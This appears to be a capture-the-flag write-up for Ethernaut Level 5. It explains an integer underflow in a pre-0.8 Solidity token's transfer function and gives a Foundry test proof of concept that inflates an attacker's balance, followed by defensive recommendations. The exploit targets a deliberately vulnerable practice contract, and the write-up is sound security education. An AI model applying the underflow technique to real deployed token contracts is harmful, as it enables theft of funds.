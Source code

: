 # Level 5 - Token

## Objectives

- You are given 20 tokens. Use them to gain additional tokens. Preferably a very large amount of tokens.

## Contract Overview

The `Token` contract is a simplified version of the ERC20 standard. It has 2 out
of 6 core ERC20 functions (`transfer()` and `balanceOf()`). It does not have the
mechanism of approval/spending of someone else's tokens. It also does not emit
`Transfer` and `Approval` events, which are necessary for the ERC20
specification. The `Token` contract lacks important safety checks to prevent
some of the most common ERC20 vulnerabilities.
_References: https://ethereum.org/en/developers/docs/standards/tokens/erc-20/, https://eips.ethereum.org/EIPS/eip-20_

Other than that, the `Token` contract is functioning almost the same as the
ERC20.

In the `Token` contract what interest us is `transfer()` function. This function is responsible for the transfer of tokens and accepts an address to which to send the tokens and a value specifying how many tokens to send.

```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

The first line has a validation that checks if sender balance does not go negative when we transfer the tokens. It should always be `>=0`.

The second line deducts the value from our balance.

The third line adds the token value to the balance of the receiver (`_to`).

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Token_slither.png)

## Finding the weak spots

The contract's Solidity version is <0.8 which means that it is prone to overflows and underflows.
_Reference: https://solidity-by-example.org/hacks/overflow/_

Integer Overflow is a scenario where the unsigned variable types reach their maximum capacity. When it can't hold anymore, it just resets back to its initial minimum point which was 0. The opposite goes for underflows. In the case of underflow, if we subtract 1 from a uint8 that is 0, it will change the value to 255.

To exploit `Token` contract we have to underflow the token balance. The vulnerability lies in the second line which is deducting our balance.

```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); // <-- this line over here
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

In older versions of Solidity, there was no validation for overflows and underflows therefore developers had to implement their own checks. A SafeMath library was also introduced for this purpose. But since Solidity 0.8.0+, there's no need to use the SafeMath since it natively checks the variables for overflows and underflows and reverts if detected.

Since the objective of the level is for us to acquire some tokens, we'll have to exploit the following statements

```solidity
    require(balances[msg.sender] - _value >= 0); // <-- this line over here
    balances[msg.sender] -= _value;
```

In the case we not specify `uint` and left it as `uint` in fact it is `uint256` so the max value is `2^256 - 1`. `Uint` doesn't have negative number so if we transfer 21 tokens (having 20 tokens to start with) it would be `-1` but in this case it would be `2^256 - 1` so a very big number.

## Potential attack scenario (hypothesis)

If attacker transfers 21 tokens (having 20 tokens to start with) to some random contract address, he can exploit integer underflow to gain additional tokens (a very large amount of tokens).

## Plan of the attack

Attacker is given 20 tokens to start with.

1.  Attacker looks for random contract address (e.g. from https://etherscan.io/).
2.  Attacker calls `transfer()` passing random contract address as the first argument and any number larger than the number of tokens that attacker possesses (e.g. 21).
3.  Attacker gains additional tokens.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/05-Token.t.sol))

```solidity
        // Attacker looks for random contract address (e.g. from https://etherscan.io/).
        address randomContractAddress = 0xBaF6dC2E647aeb6F510f9e318856A1BCd66C5e19;

        emit log_named_uint(
            "Attackers's balance of tokens (before attack): ",
            tokenContract.balanceOf(attacker)
        );

        // Attacker calls `transfer()` passing random contract address as the first argument and any number larger than the number of tokens that attacker possesses
        emit log_string("Starting the exploit...");
        tokenContract.transfer(randomContractAddress, 21);

        // Attacker gains additional tokens
        tokenContract.balanceOf(attacker);

        emit log_named_uint(
            "Attackers's balance of tokens (after attack): ",
            tokenContract.balanceOf(attacker)
        );

        // Test assertion
        assertGe(tokenContract.balanceOf(attacker), 20);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Token.png)

## Recommendations

- For Solidity versions < 0.8.0 the use of SafeMath is recommended
- It is important to have 0 address checks to prevent token burning if it is not
  intended by design.
- Fuzz tests may catch unexpected logic bugs early. It is recommended to have at
  least one fuzz test per function (ex. tools: Echidna, Foundry fuzz tests,
  Mythril, Scribble)
- Make sure that all of the return values are checked. It is safer to have
  functions revert on failure rather than returning a boolean.
- State variables that do not change should be declared `constant`.

## Additional information

You can also read my other solution (using console) on my blog: https://matrix-0wl.gitbook.io/ethernaut/5.-token-uint-prone-to-under-overflow-in-solidity-less-than-0.8

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- https://ethereum.org/en/developers/docs/standards/tokens/erc-20/
- https://eips.ethereum.org/EIPS/eip-20_
- https://solidity-by-example.org/hacks/overflow/

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

